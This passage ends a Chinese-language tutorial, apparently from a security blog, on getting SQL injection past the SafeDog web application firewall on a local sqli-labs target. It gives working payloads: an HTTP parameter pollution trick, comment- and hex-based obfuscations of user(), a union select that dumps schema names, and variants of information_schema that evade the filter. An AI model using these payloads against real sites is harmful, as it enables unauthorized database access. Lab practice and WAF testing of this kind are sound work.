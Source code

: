 
懂我意思吧，怎么绕出来，发挥你的现象，总之俩开花。


4. 老生常谈 hpp 被人遗忘的手法

前面说过 `/**/` 里面的内容安全狗基本不管了，那么我们用hpp 参数污染来绕过就很简单了
照成这个手法的原因是 web server 对参数的解析问题 在php/apache 中 它总解析最后一个id


```
http://192.168.59.129/Less-1/?id=-1' /*&id='union select 1,user(),3 -- +*/

```



# 0x03 注入

既然绕过了 `union select` 那么注入就简单了 首先来看个 `user()` ,因为它是被拦截的所以我们需要简单的绕过它

```
user()   拦截
user/**/() 拦截
user/**/(/**/) 拦截
hex(user/**/(/**/)) 不拦截

```

接着就是爆库名

```
union  -- hex()%0a select 1,schema_name,3 from `information_schema`.schemata limit 1,1

```

接下来的流传都差不多了 关键点就是在于 from 后面这块 后面的我以这个 `information_schema.schemata` 为例展示几种思路可能有的不能过

```
`information_schema`.schemata
`information_schema`.`schemata`
information_schema.`schemata`
(information_schema.schemata)
information_schema/**/.schemata

```


# 0x04 文末

这么多手法又有多少人认真看了呢，认真去试过，探索。


#### 本文如有错误，请及时提醒，避免误导他人

* author：404
